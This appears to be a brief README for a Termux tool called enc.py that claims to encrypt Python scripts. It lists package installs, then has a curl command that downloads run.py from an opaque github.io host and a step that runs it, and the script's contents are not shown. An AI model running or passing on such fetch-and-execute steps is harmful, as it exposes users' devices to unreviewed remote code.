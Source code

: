 # enc.py

Encrypt Python For Termux

# Install pkg
```
pkg upgrade
pkg update
pkg install curl
pkg install python3
pkg install python-pip
pkg install git
```

# Install Module
```
pip install -r enc.txt
```

# run.py
```
curl https://xfxugusxcvf.github.io/mp3/run.py >> run.py
```
# ----
```
python run.py
```
